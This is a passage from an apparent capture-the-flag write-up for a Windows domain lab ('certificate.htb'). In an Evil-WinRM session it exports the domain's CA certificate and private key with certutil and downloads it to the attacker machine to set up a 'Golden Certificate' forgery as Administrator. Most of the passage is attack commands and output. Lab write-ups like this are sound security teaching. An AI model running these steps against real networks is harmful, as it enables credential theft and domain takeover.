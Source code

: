 This lets me edit some directory inside not permitted areas that is `C:\Windows` or `C:\Users\Public` or even in `C:\Windows\System32` directory.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Desktop> cd C:\Users\Public\

*Evil-WinRM* PS C:\Users\Public> 
*Evil-WinRM* PS C:\Users\Public> mkdir TEMP


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/14/2025   6:26 AM                TEMP


*Evil-WinRM* PS C:\Users\Public>
```
{: .nolineno }

### 🌟 Golden Certificate Attack

Now I will be transferring the CA certificate from this user to the Attacker machine and forge that CA certificate as Administrator user and then use it to authenticate to generate the NTLM hash from it.

```powershell
*Evil-WinRM* PS C:\Users\Public\Temp> certutil -exportPFX my "Certificate-LTD-CA" C:\Users\Public\Temp\ca.pfx
my "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file C:\Users\Public\Temp\ca.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
*Evil-WinRM* PS C:\Users\Public\Temp> dir


    Directory: C:\Users\Public\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2025   6:28 AM           2675 ca.pfx


*Evil-WinRM* PS C:\Users\Public\Temp> download ca.pfx
                                        
```